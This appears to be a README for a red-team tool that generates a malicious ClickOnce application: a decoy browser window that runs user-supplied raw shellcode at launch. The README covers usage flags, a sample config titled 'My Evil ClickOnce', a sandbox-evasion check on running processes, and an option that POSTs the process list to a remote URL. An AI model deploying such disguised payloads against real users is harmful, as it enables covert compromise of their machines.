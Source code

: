 ﻿# ClickOnceGenerator
Quick Malicious ClickOnceGenerator for Red Team. The default application a simple WebBrowser widget that point to a website of your choice.

# Usage
```
$ python ClickOnceGenerator.py --help


ClickOnceGenerator | Mr.Un1k0d3r RingZer0 Team
usage: ClickOnceGenerator.py [-h] [--config CONFIG] [--out OUT]
                             [--override [OVERRIDE]]

ClickOnceGenerator Options.

optional arguments:
  -h, --help            show this help message and exit
  --config CONFIG       Path to the JSON config file.
  --out OUT             Output solution name.
  --override [OVERRIDE]
                        Delete destination if exists
  --report [REPORT]     Will perform a POST request to the url defined by url_report variable. The POST contains the list of running processes                    
```

```
python ClickOnceGenerator.py --config config.json --out myClickOnce --override True --report True
```

`config.json` example. The shellcode payload.bin need to be the `RAW` format of your shellcode.
```
{
        "title": "My Evil ClickOnce",
        "url": "http://ringzer0team.com/",
        "shellcode": "payload.bin",
        "process_name": "iexplore"
}
```
* `title` is the title of the ClickOnce Application
* `url` url used by the WebBrowser widget
* `shellcode` the payload you want to execute while the application is launched
* `process_name` used to evade sandbox by checking if a specific process is running. (default to `iexplore`)

# Windows 10

`process_name` on Windows 10 should be set to `MicrosoftEdge` instead of `iexplore`.

# Generating the Visual Studio Project

Once the files are created in the target folder create a new C# project and import the files.

To publish the ClickOnce in Visual Studio go to *Project* -> *Publish*

# Credit
Mr.Un1k0d3r RingZer0 Team
